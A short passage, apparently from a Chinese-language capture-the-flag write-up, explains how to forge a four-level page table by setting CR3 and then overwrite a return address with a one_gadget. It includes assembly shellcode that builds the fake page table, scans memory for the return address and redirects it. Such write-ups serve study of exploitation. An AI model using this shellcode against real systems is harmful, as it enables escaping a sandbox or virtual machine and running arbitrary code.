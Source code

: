   所以我们现在就可以构筑我们的shellcode，进行四级页表的伪造，这里的四级页表伪造成cr3 0x1000->0x2000->0x3000->0x0，然后根据第一个0x8找到我们的物理地址0x7000。最后在[0x7000,0x7fff]中寻找ret，将其改为one_gadget即可
  
  ```
      mov qword ptr [0x1000], 0x2003
      mov qword ptr [0x2000], 0x3003
      mov qword ptr [0x3000], 0x0003
      mov qword ptr [0x0], 0x3 // 个人感觉，这里设置0x3，代表offset就是第一个，也就是在0x8里找最终的物理地址
      mov qword ptr [0x8], 0x7003
      mov rax, 0x1000
      mov cr3, rax
  
      mov rcx, 0x1028
  look_for_ra:
      add rcx, 8
      cmp qword ptr [rcx], 0
      je look_for_ra
  
      add rcx, 24
  overwrite_ra:
      mov rax, qword ptr [rcx]
      add rax, 0x249e6
      mov qword ptr [rcx], rax
      hlt
  ```
  
  